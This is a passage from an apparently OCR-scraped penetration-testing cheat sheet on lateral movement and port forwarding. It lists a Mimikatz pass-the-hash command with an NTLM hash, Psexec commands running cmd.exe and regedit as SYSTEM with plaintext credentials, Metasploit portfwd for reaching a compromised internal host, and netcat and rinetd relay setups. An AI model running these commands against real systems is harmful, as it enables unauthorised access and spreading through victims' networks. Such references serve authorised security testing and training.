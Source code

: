         -   sekurlsa::pth /user:Administrateur /domain:WORKGROUP /ntlm:cc36cf7a8514893efccd332446158b1a

    -   **Psexec (windows platform)**

        -   **Psexec**

        -   is a portable tool from Microsoft  included in the [Sysinternals Suite] that lets you run processes remotely using any user\'s credentials. It's a bit like a remote access program but instead of controlling the remote computer with a mouse, commands are sent to the computer via cmd **Examples**

            -   psexec \[Computer\_name or IP\] \[options\] \[command\] \[command\_arguments\]

            -   psexec \\192.168.122.66 -u Administrator -p 123456Ww -c cmd.exe

            -   psexec \\192.168.122.66 -u Administrator -p 123456Ww cmd.exe

            -   psexec \\192.168.122.66 -u Administrator -p 123456Ww -s regedit.exe  \# RUN A COMMAND AS SYSTEM

            -   psfile \\192.168.122.66 -u Administrator -p 123456Ww  \# LIST FILE

            -   psinfo \\192.168.122.66 -u Administrator -p 123456Ww \# GET SYSINFO

-   <h2 align="center">Port forwarding</h2>

    -   **Metasploit**

        -   portfwd add -l \<attacker port\> -p \<victim port\> -r \<victim ip\>

        -   portfwd add -l 6666 -p 7777 -r 192.168.1.101  //any traffic comes on port  6666 on my machine forward it to 7777 on this ip  . to test it Let's connect to 127.0.0.1:6666  through rdesktop to access the compromised host in the internal network

    -   **Netcat**

        -   nc -lnvp 22 \# target machine

        -   mknod relaynode p \# gateway

        -   nc -lvnp \<any\_port\_nb\> 0\<relaynode \| nc 127.0.0.1 22 1\> relaynode

        -   nc 127.0.0.1 1111  or  ssh user\@host -p \<any\_port\_nb\> \# source machine

    -   **Rinaetd**

        -    Python -m SimpleHTTPServer 80 \# target machine

        -   apt-get install rinetd \# Gateay

        -   nano /etc/rinetd.conf

        -   localhost    localport    remotehost    remoteport     

        -   127.0.0.1    53            127.0.0.1    80

        -   Browse to [http://gatway:53] → [http://127.0.0.1:53] \# source machine

    -   **Ssh tunneling**

        -   **Local port forwarding**

        -   **Remote port forwarding**

        -   **Dynamic port forwarding**

    -   **Plink.exe**

